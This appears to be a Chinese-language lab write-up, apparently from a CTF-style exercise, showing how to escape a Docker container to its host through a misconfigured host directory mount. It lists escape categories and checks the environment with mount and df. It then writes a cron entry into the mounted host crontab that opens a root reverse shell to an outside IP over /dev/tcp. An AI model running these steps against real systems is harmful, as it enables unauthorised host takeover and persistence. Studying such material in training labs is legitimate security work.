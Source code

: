 Container escape to the host system

容器逃逸到主机系统

地址：http://192.168.86.139:1233/

查看目录以及标签，应该是需要从docker逃逸到真实机器

这个也类似于实战

在实战中：

1、判断当前shell权限\[如果不是root需要提权\]

2、判断当前是在k8s还是docker中

判断环境

![image-20231120172906719](./assets/image-20231120172906719.png)

发现是在docker

```sshell
mount \| grep '/ type'
```

![](./assets/image-20231120172910564.png)

 

一般在docker中逃逸分为

1、docker版本漏洞

2、宿主机漏洞

3、管理人员配置不当产生的漏洞

 

我们先使用第三种

第三种\[管理人员配置不当产生的漏洞\]：

1、特权启动

2、Docker Socket

3、procfs逃逸

4、目录挂载

 

这里我们从最简单的开始目录挂载\[输入以下命令\]

```shell
mount | grep 'type fuse'
Or
df -h
```

![image-20231120172922758](./assets/image-20231120172922758.png)

发现挂载目录是/host-system

![image-20231120172926719](./assets/image-20231120172926719.png)

 

得到真实机器命令，这里我们可以写入用户或者是反弹shell

 

```shell
cat /host-system/etc/crontab
```

![image-20231120172932299](./assets/image-20231120172932299.png)

生成在线反弹shell

[Online - Reverse Shell Generator (taoyuan.cool)](https://taoyuan.cool/shell/)

 

 

```shell
echo "\* \* \* \* \* root bash -i \>& /dev/tcp/192.168.86.218/3332 0\>&1" \>\>/host-system/etc/crontab
```

![image-20231120172939654](./assets/image-20231120172939654.png)

 

写入成功

![image-20231120172942919](./assets/image-20231120172942919.png)

 

拿到真实机器shell
